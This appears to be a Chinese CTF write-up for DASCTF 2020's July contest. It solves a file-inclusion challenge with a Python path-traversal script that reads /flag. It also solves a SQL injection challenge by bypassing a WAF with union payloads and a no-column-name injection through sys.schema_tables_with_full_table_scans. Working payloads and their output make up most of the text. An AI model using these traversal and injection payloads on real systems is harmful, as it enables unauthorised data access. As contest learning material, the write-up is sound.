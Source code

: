 ```yaml
---
stitle: DASCTF2020.7月赛
date: 2020-07-25
image: 
description: 
categories: 
- ctf_writeup
tags:
- 无列名
---
```

### Ezfileinclude

考点：Unix时间戳、文件包含、目录穿越

开局一张图，发现源码 `image.php?t=1595664783&f=Z3F5LmpwZw==`

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120181135.png)

访问之，回显：`What's your time?` 仔细看t参数是一个unix时间戳，然后f是base64后的文件名；

直接写脚本，目录穿越读取/flag

```python
import time
import requests
import base64
 
t = int(time.time())
f = 'gqy.jpg?../../../../../../flag'
f = base64.b64encode(f.encode()).decode()
print(t, f)
 
host = 'http://183.129.189.60:10009/image.php?t={}&f={}'.format(t, f)
head = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0)',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8'
}
 
r = requests.get(url=host, headers=head)
print(r.text)
 
```

### SQLi

考点：无列名注入，sys.schema_tables_with_full_table_scans

访问要求传入id参数：

```
http://183.129.189.60:10004/?id=1;
```

 

返回waf：

```
return preg_match("/;|benchmark|\^|if|[\s]|in|case|when|sleep|auto|desc|stat|\||lock|or|and|&|like|-|`/i", $id); 
```

 

stat意味着过滤了sys.schema_table_statistics_with_buffer,sys.x$schema_table_statistics_with_buffer,mysql.innodb_table_stats

or意味着过滤了information_schema

由waf想到了union注入：

```
?id=0%27union/**/select/**/1,2,3%23
Array ( [0] => 1 [id] => 1 [1] => 2 [username] => 2 [2] => 3 [password] => 3 )
```

 

可以看到库名：

```
?id=0%27union/**/select/**/1,database(),3%23
sqlidb
```

 

上述bypass infomation_schema的方法都被过滤了，不过leon师傅在一次开发当中发现了另一个库：`sys.schema_tables_with_full_table_scans`

```
?id=0'/**/union/**/select/**/1,group_concat(object_name),3/**/from/**/sys.schema_tables_with_full_table_scans%23
#users,flllaaaggg,sys_config
```

接下来是无列名注入：

```
?id=0'/**/union/**/select/**/1,(select/**/a.2/**/from/**/(select/**/1,2/**/union/**/select/**/*/**/from/**/flllaaaggg)a/**/limit/**/1,1),3%23
flag{60325f20416b40b11b6049734bad11cf}
```